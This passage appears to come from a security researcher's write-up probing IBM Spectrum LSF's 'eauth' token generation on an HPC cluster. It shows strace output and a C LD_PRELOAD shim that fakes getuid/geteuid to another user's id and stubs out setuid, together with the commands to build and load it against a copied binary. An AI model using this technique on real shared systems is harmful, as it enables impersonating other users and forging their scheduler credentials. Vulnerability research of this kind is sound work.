 ```
strace -o bsub.strace -f bsub -Is -nnodes 1 -PSTF002SUMMIT -W00:20 -qbatch /bin/bash
```

After capturing `strace` output, it's immediately apparent that `bsub` is using the system-installed `eauth` during execution (presumably to grab an auth token to pass alongside the interactive `/bin/bash` job request to the job scheduler).

```
$ grep eauth bsub.strace
57143 execve("/opt/ibm/spectrumcomputing/lsf/10.1/linux3.10-glibc2.17-ppc64le-csm/etc/eauth", ["/opt/ibm/spectrumcomputing/lsf/1"..., "-c", "mgmt1"], [/* 113 vars */]) = 0
```

We do not have `eauth` source, however, and will either need to reverse engineer the binary or the submission protocol to understand how the `eauth` tokens are being generated.


### The First Roadblock: Can we even obtain a token of other users?

One awesome trick that you can use to manipulate the input or return value of function calls of closed-source (or even open-source) binaries is LD_PRELOAD. A great writeup can be found on [Peter Goldsborough's Blog on the LD_PRELOAD trick](http://www.goldsborough.me/c/low-level/kernel/2016/08/29/16-48-53-the_-ld_preload-_trick/). We can override the return value of getuid() type calls to return the numeric userid of another user on the system... if `eauth` is not validating with something trusted, like the kernel, that *our* process is owned by that uid, we might be able to get a hold of someone else's `eauth` token! This is some code (named preload.c) that will replace calls to glibc's getuid() family of functions and return the userid '1001' to your program. The setuid() function here always returns 0 to prevent your program from calling out to the kernel through the normal glibc function of that name.

```
int geteuid() {
  return 1001;
}

int getuid() {
  return 1001;
}

int setuid( int id ) {
  return 0;
}
```

We can build the shared library with `gcc` and then activate it like so:

```
$ gcc -o preload.so -fPIC -shared preload.c -ldl
$ export LD_PRELOAD=./preload.so
```


### Second Roadblock: System eauth is setuid root

The system `eauth` has setuid root permissions, and the dynamic linker knows better than to preload our shared libraries. That would be a very big security issue. That being said, since we can run `eauth`, we can copy the binary to a directory that we can write to.  This copy will not have the setuid bit set, so we are able to preload in front of *that* binary, and see if we get different strings depending on the userid that we are faking.
